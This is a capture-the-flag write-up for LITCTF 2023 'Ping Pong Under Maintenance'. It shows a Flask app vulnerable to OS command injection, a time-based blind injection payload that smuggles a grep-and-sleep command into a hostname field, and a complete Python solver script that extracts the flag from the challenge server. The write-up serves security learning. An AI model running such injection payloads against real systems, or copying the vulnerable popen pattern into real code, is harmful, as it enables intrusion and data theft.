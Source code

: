 ```yaml
---
title: 2023 LITCTF - Ping Pong Under Maintenance
author: thanguyen165
date: 2023-08-08 00:00:00 +0700
categories: [Write-ups, 2023_LITCTF]
tags: [Web Exploitation, OS command injection]
---
```


* 90 solves / 158 points
* Author: eyangch

## Description

> The website seems to be under maintenance.

### Attached

[ping-pong-under-maintenance](http://34.27.167.72/dl/?web%2FPing+Pong_+Under+Maintenance%2Fping-pong-under-maintenance.zip=)

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')

```
{: file="pingpong.py" }

## Analyzation

In this challenge, we cannot see the output anymore. So we use time-based blind injection.

Use command
```
grep "LIT" flag.txt && sleep 5;
```

- If ```grep "LIT" flag.txt``` is correct, aka string ```"LIT"``` is in ```flag.txt``` content, the second command ```sleep 5``` will be executed, and it takes more time to return response.

## Solution

```py
import requests, string, time

ALPHABET = "}_" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL_PINGPONGUnderMaintenance = 'http://34.130.180.82:53558/' # change this link

HEADERS={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5'
}

flag = "LITCTF{"
TEMPLATE_PAYLOAD = '; grep "{}" flag.txt && sleep 5;'

while flag[-1] != '}':
    for character in ALPHABET:
        print("char: %s" % character) # log the process.
        flag_tmp = flag + str(character)

        START_TIME = time.time()
        respond = requests.post(URL_PINGPONGUnderMaintenance, headers=HEADERS, data={'hostname': TEMPLATE_PAYLOAD.format(flag_tmp)})

        if time.time() - START_TIME > 5:
            flag = flag_tmp
            print("true: {}".format(flag)) # log the process.
            break

print(flag)

```
{: file="solution.py" }

The flag is
```
LITCTF{c4refu1_fr}
```